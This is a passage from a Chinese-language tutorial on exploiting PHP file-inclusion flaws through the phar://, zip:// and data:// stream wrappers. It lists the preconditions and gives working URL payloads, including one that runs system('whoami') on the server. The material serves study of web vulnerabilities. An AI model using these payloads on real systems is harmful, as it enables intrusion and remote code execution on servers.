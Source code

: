或者**使用相对路径**（这里test.zip就在当前目录下）

```
index.php?file=phar://shell.phar/shell.php
```


#### `zip://`

##### 利用条件：
php版本大于等于php5.3.0

##### 姿势：
首先我们**新建一个zip文件，里面压缩着一个php脚本(可以为php和jpg后缀)**
假设有个文件`phpinfo.txt`，其内容为`<?php phpinfo(); ?>`，打包成`zip`压缩包，如下：

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.gpzgicp6mqb_1536892589)

但使用zip协议，**需要指定`绝对路径`，同时将`#`编码为`%23`，之后填上压缩包内的文件**。若是使用相对路径，则会包含失败。

```
index.php?file=zip://D:\phpStudy\WWW\fileinclude\test.zip%23phpinfo.txt
```

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.i4lhwg58hc_1536892597)


#### 
`data:URI schema`

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/20190310115711.png)

##### 说明
这是一种数据流封装器，`data:URI schema`(URL schema可以是很多形式)

利用`data://`伪协议进行代码执行的思路原理和`php://`是类似的，都是利用了PHP中的流的概念，**将原本的include的文件流重定向到了用户可控制的输入流中**

##### 利用条件：
* php版本大于等于php5.2
* allow_url_fopen = On
* allow_url_include = On

##### 姿势一：

```
index.php?file=data:text/plain,<?php phpinfo();?>
```

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.nh3ihn1zzgl_1536892608)

###### 执行命令

```
index.php?file=data:text/plain,<?php system('whoami');?>
```

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.1r2p6tbp1jo_1536892617)
